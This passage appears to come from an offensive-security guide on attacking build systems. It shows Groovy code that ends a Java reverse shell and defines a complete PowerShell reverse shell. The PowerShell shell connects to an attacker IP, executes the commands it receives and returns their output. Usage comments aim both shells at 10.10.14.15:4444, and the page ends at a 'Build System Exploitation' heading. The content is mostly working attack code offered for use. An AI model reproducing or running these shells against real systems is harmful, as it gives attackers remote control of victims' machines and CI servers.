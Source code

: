 ```groovy
                println "Output thread error: ${e.getMessage()}"
            }
        }
        
        // Keep shell alive
        process.waitFor()
        
    } catch (Exception e) {
        println "Java reverse shell failed: ${e.getMessage()}"
    }
}

// PowerShell-based reverse shell
def powershellReverseShell(String attackerIP, int port) {
    def psCommand = """
\$client = New-Object System.Net.Sockets.TCPClient('$attackerIP',$port);
\$stream = \$client.GetStream();
[byte[]]\$bytes = 0..65535|%{0};
while((\$i = \$stream.Read(\$bytes, 0, \$bytes.Length)) -ne 0) {
    \$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString(\$bytes,0, \$i);
    \$sendback = (iex \$data 2>&1 | Out-String );
    \$sendback2 = \$sendback + 'PS ' + (pwd).Path + '> ';
    \$sendbyte = ([text.encoding]::ASCII).GetBytes(\$sendback2);
    \$stream.Write(\$sendbyte,0,\$sendbyte.Length);
    \$stream.Flush()
};
\$client.Close()
"""
    
    try {
        def cmd = ["powershell.exe", "-Command", psCommand]
        def proc = new ProcessBuilder(cmd).start()
        
        println "[+] PowerShell reverse shell initiated to $attackerIP:$port"
        
    } catch (Exception e) {
        println "PowerShell reverse shell failed: ${e.getMessage()}"
    }
}

// Usage:
// javaReverseShell("10.10.14.15", 4444)
// powershellReverseShell("10.10.14.15", 4444)
```

---

## Build System Exploitation

### Pipeline Manipulation
